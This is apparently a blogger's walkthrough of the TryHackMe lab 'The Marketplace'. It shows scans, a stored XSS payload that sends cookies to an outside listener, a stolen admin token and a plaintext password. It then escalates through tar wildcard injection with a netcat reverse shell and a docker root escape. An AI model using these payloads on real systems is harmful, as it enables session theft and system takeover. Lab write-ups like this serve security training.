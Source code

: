 ```yaml
---

title: Walkthrough - The Marketplace
published: true
---
```


Tags: Web, XSS, Docker, SQLi.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -sC -sV -sT -O 10.10.144.85 -oN nmap_2 -p22,80`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
```

- `gobuster dir -u http://10.10.144.85 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100`

```
/login                (Status: 200) [Size: 857]
/admin                (Status: 403) [Size: 392]
/images               (Status: 301) [Size: 179] [--> /images/]
/Admin                (Status: 403) [Size: 392]               
/Login                (Status: 200) [Size: 857]               
/new                  (Status: 302) [Size: 28] [--> /login]   
/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
/signup               (Status: 200) [Size: 667]                    
/messages             (Status: 302) [Size: 28] [--> /login]        
/ADMIN                (Status: 403) [Size: 392]                    
/New                  (Status: 302) [Size: 28] [--> /login]        
/NEW                  (Status: 302) [Size: 28] [--> /login]        
/Messages             (Status: 302) [Size: 28] [--> /login]        
/Signup               (Status: 200) [Size: 667]                    
/SignUp               (Status: 200) [Size: 667]                    
/LOGIN                (Status: 200) [Size: 857]                   
```

Visiting the website we have a MARKETPLACE wow.

Initially I though I could get XSS sending `<SCRIPT>alert("XSS");//\<</SCRIPT>` through the messages to myselfs created account, but the messages seemed to be parsed and turned to URL safe text. Did however get XSS "adding a new listing" with `<SCRIPT>alert("XSS");//\<</SCRIPT>` then visiting the item `http://10.10.144.85/item/4` 

![](/assets/the-marketplace01.png)

Also, visiting the pages through burpsuite we can see this is giving us a cookie. Visiting /admin it tells us that we are not authorized to view it. On the listing page there is a Report listing to admins.

Setup listening port on kali linux `nc -nvlkp 6969`

Add a new listing with this xss `<script>document.location='http://10.2.127.225:6969/XSS/grabber.php?c='+document.cookie</script>`

![](/assets/the-marketplace02.png)

We get our cookie sent through the netcat listner. 

We can then goto `http://10.10.144.5/report/3` to report the listing to the admin.

![](/assets/the-marketplace03.png)

Boom, we receive the admin cookie!

```
GET /XSS/grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NjIxNDM1ODF9.2p7iQfwFvsVpB2ESVvWMkYRzhoFsh0vN1OMIWBYUp6k 
```

Putting this into the firefox inspector lets us access the admin page.

* * * 

## Flag 1

![](/assets/the-marketplace04.png)

* * * 

## User.txt

- `sqlmap -u http://10.10.144.207/admin?user= --cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsIjI0ODgwMTl9.UNKrJC_3ISOyESabw6njQvthxzjMto0z8Oma0whOsUU -a`

my sqlmap isnt working qq i only get 403 responses...

![](/assets/the-marketplace05.png)

- `jake:@b_ENXkGYUCAv3zJ`

* * * 

## Root.txt

Now that we're loggin in as jake we run `sudo -l`

```
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

backup.sh contains

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

This script calls tar to create a backup file. we do not have write access to it but it is also calling to tar without using the path so if we create a file `tar` inside of backups we should be able to privesc. But this is getting us nowhere. 

After some searching I [found an article on Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Because this tar is calling a wildcard "`*`" we can use this. An asterisk matches any number of character in a filename, including none. 

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
```

So, creating these files with no name creates files that the astrisk will call to get the tar to execute our shell we created, thus getting us a reverse shell.

```
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory
```

and we get a revshell to michael. 

running `id` michael has a docker id. checking gtfo bins and we get a root shell with 

- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

* * * 

